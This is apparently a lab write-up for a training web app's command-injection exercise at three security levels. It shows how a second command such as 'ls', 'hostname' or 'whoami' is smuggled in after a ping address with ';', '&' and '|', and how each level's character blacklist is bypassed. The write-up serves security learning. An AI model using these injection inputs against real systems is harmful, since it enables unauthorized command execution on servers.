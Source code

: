 # 1. Command Injection -> Low Security Level

```
For More information ->
```
![alt text](images/1.png)

## I wanna check with ;ls
```bash
┌──(robert㉿kali)-[~]
└─$ ping 127.0.0.2; ls       
PING 127.0.0.2 (127.0.0.2) 56(84) bytes of data.
64 bytes from 127.0.0.2: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 127.0.0.2: icmp_seq=2 ttl=64 time=0.068 ms
64 bytes from 127.0.0.2: icmp_seq=3 ttl=64 time=0.079 ms
64 bytes from 127.0.0.2: icmp_seq=4 ttl=64 time=0.075 ms
64 bytes from 127.0.0.2: icmp_seq=5 ttl=64 time=0.069 ms
64 bytes from 127.0.0.2: icmp_seq=6 ttl=64 time=0.062 ms
^C
--- 127.0.0.2 ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5105ms
rtt min/avg/max/mdev = 0.062/0.087/0.170/0.037 ms
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```
Here we go
![alt text](images/2.png)

So this was the low level 
![alt text](images/3.png)

# 2. Command Injection -> Medium Security Level
``` bash
With ;ls don't get any output so has to change the flow
Can see that ";" "&" will be replaced with " "
```
Source Code for medium lvl 
![alt text](images/4.png)
``` bash
Solution -> ping 127.0.0.2 &ls
```
![alt text](images/5.png)
![alt text](images/6.png)

``` bash
ping 127.0.0.2 & ls & hostname & whoami -> useful command
```
![alt text](images/7.png)

# 3. Command Injection -> High Security Level
![alt text](images/8.png)
>The blacklist is bigger and bigger 
![alt text](images/9.png)
>Function trim() which removes all the spaces was a good hint, just put them together
``` bash
ping 127.0.0.2|ls
```
![alt text](images/10.png)
